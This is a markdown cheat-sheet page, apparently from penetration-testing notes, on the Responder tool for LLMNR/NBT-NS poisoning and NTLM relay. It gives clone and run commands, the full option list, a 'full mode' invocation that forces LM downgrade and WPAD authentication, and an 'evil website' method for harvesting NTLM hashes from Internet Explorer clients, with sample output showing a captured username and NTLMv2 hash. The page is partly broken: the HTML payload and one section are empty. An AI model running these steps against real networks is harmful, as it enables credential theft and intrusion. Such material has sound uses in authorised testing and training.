

## Responder

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

### Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

### Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

### Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

### Examples

{}

#### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -f -v
```

#### Full mode

```plain
sudo ./Responder.py -I <interface> -f -w -F --lm -v
```

### Evil website

Works on:

* Internet Explorer 8 (8.0.7600.16385, Windows 7)
* Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
* Internet Explorer 11 (11.719.18362.0, Windows 10)
* Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
* Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

* Microsoft Edge (44.18362.449.0 Windows 10)
* Google Chrome (80.0.3987.149, Windows 10)
* Brave (1.5.115, Windows 10)
* Opera (67.0.3575.115, Windows 10)

#### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
</img>
</body>
</html>
```

#### Host the site

```plain
python3 -m http.server 80
```

#### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...SNIP...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

#### Client browsed to site



#### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...SNIP...]
```

#### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

### URL list

* [GitHub.com - Responder](https://github.com/lgandx/Responder)
* [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
